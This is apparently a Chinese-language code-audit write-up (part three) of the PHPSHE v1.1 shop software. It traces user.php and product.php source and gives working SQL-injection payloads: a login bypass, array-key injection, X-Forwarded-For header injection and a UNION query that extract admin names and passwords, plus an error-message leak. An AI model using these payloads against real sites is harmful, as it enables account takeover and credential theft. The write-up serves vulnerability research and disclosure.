 ## **PHPSHE V1.1 （三）**

### **user.php**
接下來，我們來看看`user`模塊。

```php
//Line:10

case 'login':
    if (isset($_p_pesubmit)) {
        $_p_info['user_pw'] = md5($_p_info['user_pw']);
        if ($info = $db->pe_select('user', $_p_info)) {
```

亮點在這裡`if ($info = $db->pe_select('user', $_p_info)) {`，只要$info不為空就成功登入了。
<p>
簡單來一發萬能密碼,用戶名：`' or 1=1-- -`，密碼隨意就ok了


### **【Bug 0x09: SQL注入 任意用戶登入】**

URL:

`/index.php?mod=user&act=login`

DATA:
```
info%5Buser_name%5D=1' or 1=1-- -
&info%5Buser_pw%5D=123456
&pesubmit=
```

繼續看
```php
//Line:168

case 'base':
    if (isset($_p_pesubmit)) {
        if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {
            pe_success('基本訊息修改成功！');
        }
        else {
            pe_error('基本訊息修改失敗...');
        }
    }
    $info = $db->pe_select('user', array('user_id'=>$_s_user_id));

    $seo = pe_seo($menutitle='基本訊息');
    include(pe_tpl('user_base.html'));
```

亮點在`if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {`。
<p>
我們跟進`pe_dbhold()`函數

```php
//Line:30

//資料庫安全
function pe_dbhold($str, $exc=array())
{
    if (is_array($str)) {
        foreach($str as $k => $v) {
            $str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
        }
    }
    else {
        $str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
    }
    return $str;
}
```

此處對陣列的值進行了過濾，但是對陣列的鍵沒有處理。
<br >
我們跟進`pe_update()`函數


```php
public function pe_update($table, $where, $set)
{
    //處理設置語句
    $sqlset = $this->_doset($set);
    //處理條件語句
    $sqlwhere = $this->_dowhere($where);
    return $this->sql_update("update `".dbpre."{$table}` {$sqlset} {$sqlwhere}");    
}
```

### **【Bug 0x06】** 一樣，經過`_dowhere()`處理、一樣可以對其進行注入。

```【Bug 0x09: SQL注入 獲取任意資料庫數據】```
<p>
URL:
```/index.php?mod=user&act=base```
<p>
DATA:
```info%5Buser_address`%3D(select concat(0x7e,admin_name,0x7e,admin_pw,0x7e) from pe_admin limit 1) , `user_tname%5D=1```


**product.php**
第一個操作**商品諮詢**就可能存在一個小BUG。

```php
//Line:5

case 'askadd':
    if (isset($_p_pesubmit)) {
        ...
        $info['ask_text'] = pe_texthtml(pe_dbhold($_p_ask_text));
        ...
        $info['user_ip'] = pe_ip();
        if ($db->pe_insert('ask', $info)) {
            ...
            $info['ask_text'] = htmlspecialchars($_p_ask_text);
```


## **【Bug 0x10: 訊息洩漏 Warning】**
POST:
<p>
```/index.php?mod=product&act=askadd&id=1```
<br>
DATA:
<p>
```ask_text[]=asfasdfasfs&pesubmit=true```
<br>

錯誤訊息
```
Warning: nl2br() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\include\function\global.func.php
Warning: htmlspecialchars() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\module\index\product.php
```

然後還有一個亮點`$info['user_ip'] = pe_ip();`，我們跟進`pe_ip()`函數

```php
//Line : 333

//獲取IP
function pe_ip()
{
    if (isset($_SERVER)){
        if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
            $realip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    ...
    return $realip;
```

明顯的XFF注入。只要在寫入資料庫的時候用到了這個函數獲取IP的地方、、都是一樣的注入。

### **【Bug 0x11: SQL注入 獲取任意資料庫數據】**
POST:
<br>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<p>
x-forwarded-for:
<pre>
```1', `ask_replytext` = (select concat(0x7e,admin_name,0x7e,admin_pw,0x7e)  from pe_admin limit 1)#
</pre>
返回的訊息在商品、賣家回覆裡。
<br >
再往下看，在`商品列表`操作中、又是一個大大的BUG出現了。

```php
//Line:83

case 'list':
    ...
    $_g_keyword && $sqlwhere .= " and `product_name` like '%{$_g_keyword}%'";
    ...
    $info_list = $db->pe_selectall('product', $sqlwhere, '*', array(16, $_g_page));
```

WHERE條件帶入了未經過濾的`$_g_keyword`變數。
<br>
### **【Bug 0x12: SQL注入 獲取任意資料庫數據】**
URL:
```php
/index.php?mod=product&act=list&id=1&keyword=%' union select 1,admin_pw,1,1,1,admin_name,1,1,1,1,1,1,1,1,1,1,1,1,1 from pe_admin-- -
```